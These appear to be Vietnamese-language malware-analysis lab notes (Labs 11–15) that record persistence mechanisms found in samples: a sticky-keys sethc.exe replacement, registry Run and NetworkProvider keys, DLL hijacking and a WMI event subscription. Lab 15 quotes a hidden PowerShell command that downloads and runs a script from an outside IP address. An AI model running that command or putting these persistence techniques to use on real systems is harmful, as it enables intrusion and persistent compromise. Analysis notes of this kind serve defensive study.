 # Lab 11

- Mã độc thay thế đường dẫn của sethc.exe thành cmd.exe, khi ấn phím Shift 5 lần sẽ mở cmd.exe với quyền admin thay vì seth.exe.

- Cách thức persistent: mã độc dùng key HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options.

# Lab 12

- Đường dẫn: C:\Windows\System32\NPIlium.dll

- Cách thức persistent : mã độc dùng key Registry HKLM\SYSTEM\CurrentControlSet\Control\NetworkProvider\Order.

# Lab 13

- Đường dẫn: C:\Program Files\PRTG Network Monitor\TmDbgLog.dll

- Cách thức persistent: mã độc dùng phương pháp Dll Hijacking để thay thế dll gốc.

# Lab 14

- Đường dẫn: C:\Windows\QcLite.dll

- Cách thức persistent: Mã độc dùng key HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run.

# Lab 15

- Mã độc thực thi lệnh: powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://39.109.114.56:80/a'))

- Cách thức persistent: Mã độc dùng WMI event subscription với WQL = SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'.
